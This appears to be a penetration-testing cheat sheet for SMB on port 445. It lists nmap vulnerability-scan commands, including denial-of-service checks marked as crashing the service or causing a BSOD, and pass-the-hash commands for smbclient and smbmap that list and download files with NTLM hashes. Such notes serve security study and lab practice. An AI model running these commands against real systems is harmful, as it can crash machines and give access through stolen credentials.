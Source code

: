 ```yaml
---
layout: default
title: SMB
tags:
    - 445
    - block
    - message
    - server
    - smbclient
    - smbd
    - smbmap
---
```

# SMB
### Nmap scripts
Safe vulnerability scan

```shell
nmap -p 445 -vv --script smb-vuln-ms06-025,smb-vuln-ms07-029,smb-vuln-ms08-067,smb-vuln-ms10-061,smb-vuln-ms17-010,smb-vuln-cve-2017-7494 10.10.10.10
```

Windows 2000 regsvc null pointer crash (_**service crashes if successful**_)

```shell
nmap -p 445 -vv --script smb-vuln-regsvc-dos 10.10.10.10
```

CVE-2009-3103 DOS check (Windows Vista and some of 7 - _**BSOD if successful**_)

```shell
nmap -p 445 -vv --script smb-vuln-cve2009-3103 10.10.10.10
```

CVE-2010-2550 memory corruption check (_**BSOD if successful**_)

```shell
nmap -p 445 -vv --script smb-vuln-ms10-054 10.10.10.10
```

### Pass-the-hash
List directories

```shell
smbclient -U <user>%<hash> --pw-nt-hash -L 10.10.10.10
```

```shell
smbmap -u <user> -p '<NTLM hash>:<LM hash>' -H 10.10.10.10
```
- _LM hash is legacy and can usually be anything_
- `--download <path>`: download file
- `-R`: recursively list files

Open specific directory

```shell
smbclient -U <user>%<hash> --pw-nt-hash //10.10.10.10/<directory>
```